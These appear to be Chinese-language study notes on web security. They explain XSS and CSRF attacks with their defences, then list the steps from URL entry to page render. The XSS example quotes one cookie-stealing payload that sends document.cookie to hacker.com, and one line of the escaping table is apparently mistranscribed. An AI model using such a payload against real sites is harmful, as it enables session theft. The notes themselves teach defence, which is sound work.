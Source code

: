 什么是 XSS 攻击？如何预防？

举例
	  div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
	  // 恶意就被执行了，这就是 XSS

预防

不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行

如果你一样要用 innerHTML，字符过滤

	把 < 替换成 &lt;
	把 > 替换成 &gt;
	把 & 替换成 &amp;
	把 ' 替换成 &#39;
	把 ' 替换成 &quot;

代码 div.innerHTML = userComment.replace(/>/g, '&lt;').replace...

使用 CSP Content Security Policy

2.什么是 CSRF 攻击？如何预防？

过程
	
	用户在 qq.com 登录
	用户切换到 hacker.com（恶意网站）
	hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
	用户在不知不觉中添加 hacker 为好友。
	用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。

避免

	检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
	csrf_token 来解决

# 从输入 URL 到页面展现中间发生了什么 #
	
	1 DNS 查询 DNS 缓存
	2 建立 TCP 连接（三次握手）连接复用
	3 发送 HTTP 请求（请求的四部分）
	4 后台处理请求
		监听 80 端口
		路由
		渲染 HTML 模板
		生成响应
	5 发送 HTTP 响应
	6 关闭 TCP 连接（四次挥手）
	7 解析 HTML
	8 下载 CSS（缓存
	解析 CSS
	9 下载 JS（缓存
	解析 JS
	10 下载图片
	解析图片
	11 渲染 DOM 树
	12 渲染样式树
	13 执行 JS
